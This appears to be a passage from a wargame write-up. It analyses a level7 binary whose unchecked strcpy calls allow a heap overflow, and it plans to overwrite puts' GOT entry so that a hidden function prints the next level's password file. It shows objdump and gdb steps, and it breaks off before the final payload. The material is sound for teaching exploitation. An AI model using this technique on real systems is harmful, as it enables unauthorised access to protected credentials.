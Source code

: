 ```C
    t_struct *s_arg2;

    int i = 0;
    s_arg1 = (void *)malloc(0x8);
    s_arg1->n = 1;
    s_arg1->ptr = (void *)malloc(0x8);
    s_arg2 = (void *)malloc(0x8);
    s_arg2->n = 2;
    s_arg2->ptr = (void *)malloc(0x8);

    strcpy(s_arg1->ptr, argv[1]);
    strcpy(s_arg2->ptr, argv[2]);
    fgets(c, 0x44, fopen("/home/user/level8/.pass", "r"));
    puts("~~");
}
```

The program takes two arguments. Those arguments are copied inside two pointers.
Then, the pass file is readed and stored inside a global variable. Unfortunately, this global variable is not readed. This work is done by a function `m` that is not called. Our job is to call the m-function after `fgets` syscall.

The idea would be to replace the address of `puts` in the Global Offset Table (GOT) with the `m-function` address.

Lets get `puts` address in GOT and `m-function` address.

```bash
# puts address
objdump -R ./level7  | grep puts
> 08049928 R_386_JUMP_SLOT   puts

# m address
objdump -t ./level7  | grep -w m
> 080484f4 g     F .text  0000002d              m
```

Now we need to find a way to replace the puts-function address with the m-function address.

```shell
gdb-peda$ b *0x080485a0 # first strcpy
gdb-peda$ b *0x080485bd # second strcpy
gdb-peda$ run AAAAAAAA BBBBBBBB

# Before 1st strcpy
[-------------------------------------code-------------------------------------]
   0x8048596 <main+117>:        mov    eax,DWORD PTR [eax+0x4]
   0x8048599 <main+120>:        mov    DWORD PTR [esp+0x4],edx
   0x804859d <main+124>:        mov    DWORD PTR [esp],eax
=> 0x80485a0 <main+127>:        call   0x80483e0 <strcpy@plt>
   0x80485a5 <main+132>:        mov    eax,DWORD PTR [ebp+0xc]
   0x80485a8 <main+135>:        add    eax,0x8
   0x80485ab <main+138>:        mov    eax,DWORD PTR [eax]
   0x80485ad <main+140>:        mov    edx,eax
Guessed arguments:
arg[0]: 0x804a018 --> 0x0          -> s_arg1->ptr
arg[1]: 0xbffff838 ("AAAAAAAA")    -> argv[1]
[------------------------------------stack-------------------------------------]

gdb-peda$ x/x $esp+0x1c # s_arg1
> 0xbffff62c:     0x0804a008

gdb-peda$ x/x $esp+0x18 # s_arg2
> 0xbffff628:     0x0804a028

gdb-peda$ x/20 0x804a000
```